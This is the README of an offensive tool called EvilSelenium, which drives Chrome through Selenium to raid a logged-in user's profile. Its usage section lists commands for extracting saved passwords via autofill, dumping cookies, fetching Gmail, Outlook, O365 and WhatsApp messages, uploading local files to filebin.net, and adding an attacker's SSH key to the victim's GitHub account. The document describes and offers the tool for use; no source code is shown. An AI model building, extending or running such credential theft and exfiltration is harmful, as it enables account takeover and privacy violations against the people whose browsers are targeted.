 # EvilSelenium
EvilSelenium is a beta project that weaponizes <a href="https://www.selenium.dev/">Selenium</a> to abuse Chrome, specifically:

* Steal stored credentials (via autofill)
* Steal cookies
* Take screenshots of websites
* Dump Gmail/O365 emails
* Dump WhatsApp messages
* Download & exfiltrate files
* Add SSH keys to GitHub

Easily extend the existing functionality to suit your needs (e.g. Create resources on Azure, download files from GDrive/OneDrive).

# Note

1. When this tool is run it will terminate any existing Chrome processes in order to be able to run with the user's Chrome profile which contains all passwords & sessions.

2. I built this tool in about a week & I didn't run as many tests as I should therefore there may be some bugs.

# Usage
	
	EvilSelenium.exe /?

    /help - Show this help menu.

    SETUP:
    /install - Install chromedriver & Selenium webdriver. Run this once.

    RECON:
    /enumsavedsites [out_path] - Check which websites have passwords saved via screenshot(s).
    /screenshot [website] [out_path] - Screenshot a given webpage.

    CREDENTIALS:
    /autorun - Extract saved credentials from common websites.
    /dynamicid [login_page] [username_id] [password_id] - Extract saved credentials from a website, providing the username field ID & password field ID.
    /dynamicname [login_page] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value & password name value.
    /dynamicname2 [login_page] [username_position] [password_position] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value, password name value and their positions.

    COOKIES:
    /cookies [website] - Grabs cookies for a given website.

    MODULES:
    /download [file_url] [seconds] - Downloads a file and specify time to wait for download to finish. File extensions should not be executable.
    /exfil [local_file] [seconds] - Uploads a file on filebin.net and outputs the download link.
    /gmail [out_path] [num_of_emails] - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.
    /outlook [out_path] [num_of_emails] - Fetches emails from Outlook if user is authenticated.
    /o365 [out_path] [num_of_emails] - Fetches emails from O365 Outlook if user is authenticated.
    /github [key] - Add your SSH key to Github if user is authenticated.
    /whatsapp [out_path] - Fetches Whatsapp messages if user is authenticated (BETA).

# Setup

The `/install` command will download the Chrome Driver and Selenium WebDriver which are the necessary requirements. EvilSelenium will work on Chrome versions 98-90.

**Tested on Windows 10, Chrome v97 & v90.**

	EvilSelenium.exe /install

# Recon Module

`/enumsavedsites` - This will take screenshots of chrome://settings/passwords

`/screenshot` - Screenshot any website. If the user is authenticated to the website then you get authenticated screenshots :).

# Credentials Module

**IMPORTANT:** The credentials module will **DELETE COOKIES** in order to steal credentials from autofill. Ideally, you should use the credentials module at the end if you want to export cookies.

`/autorun` - I pre-built credential stealer templates for common websites. I'll continue to add more.

`dynamicid` - Provide the login URL along with the username input field's ID and password field's ID. This is equivalent to document.getElementById().

`dynamicname` - If the fields don't have IDs, provide the fields' name values. It will pick the first index of the name values. This is equivalent to document.getElementsByName()[0].value.

`dynamicname2` - Provide the fields' name values along with their index position. This is equivalent to document.getElementsByName()[x].value.

# Cookies Module

`/cookies` - Dumps cookies from the specified website.

# Misc Modules

These are additional modules I built to demonstrate what sort of actions you can do with Selenium.
